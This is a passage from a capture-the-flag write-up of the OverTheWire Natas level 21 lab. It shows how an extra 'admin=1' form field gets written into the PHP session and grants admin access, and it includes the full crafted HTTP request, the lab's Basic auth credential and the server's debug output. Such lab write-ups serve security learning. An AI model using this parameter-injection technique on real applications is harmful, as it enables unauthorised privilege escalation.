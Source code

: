 This means if during a request that uses submit we can add our of values to the $\_SESSION variable. If we add &admin=1 we will pass the print\_credentials\(\) check on the main page.

```text
POST /index.php?debug HTTP/1.1
Host: natas21-experimenter.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas21-experimenter.natas.labs.overthewire.org/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Authorization: Basic bmF0YXMyMTpJRmVrUHlyUVhmdHppREVzVXIzeDIxc1l1YWh5cGRnSg==
Connection: close
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

align=center&fontsize=100%25&bgcolor=yellow&submit=Update&admin=1

HTTP/1.0 200 OK
Date: Mon, 23 Sep 2019 12:09:42 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: PHPSESSID=kvklchlc4spv0iu9i6a5a4g2b7; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1015
Content-Type: text/html; charset=UTF-8
X-Cache: MISS from localhost
Via: 1.1 localhost:3128 (squid/2.7.STABLE9)
Connection: close
```

```php
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas21 - CSS style experimenter</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>
[DEBUG] Session contents:<br>Array
(
    [debug] => 
    [align] => center
    [fontsize] => 100%
    [bgcolor] => yellow
    [submit] => Update
    [admin] => 1
)
```
